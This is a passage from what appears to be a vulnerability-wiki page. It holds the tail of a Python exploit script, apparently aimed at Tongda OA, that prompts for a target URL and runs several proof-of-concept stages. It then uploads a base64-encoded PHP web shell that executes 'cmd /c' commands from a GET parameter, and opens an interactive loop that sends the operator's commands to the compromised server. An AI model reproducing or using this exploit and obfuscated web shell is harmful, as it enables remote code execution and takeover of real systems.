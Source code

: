 ```python
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url)
    payload_php = base64.b64decode("PD9waHAKICAgICRjb21tYW5kPSRfR0VUWyd0ZXN0J107CiAgICAkd3NoID0gbmV3IENPTSgnV1NjcmlwdC5zaGVsbCcpOwogICAgJGV4ZWMgPSAkd3NoLT5leGVjKCJjbWQgL2MgIi4kY29tbWFuZCk7CiAgICAkc3Rkb3V0ID0gJGV4ZWMtPlN0ZE91dCgpOwogICAgJHN0cm91dHB1dCA9ICRzdGRvdXQtPlJlYWRBbGwoKTsKICAgIGVjaG8gJHN0cm91dHB1dDsKPz4=").decode("utf-8")
    POC_3(target_url, payload_php)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_4(target_url, cmd)



```

![](http://wikioss.peiqi.tech/vuln/tongdaoa-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)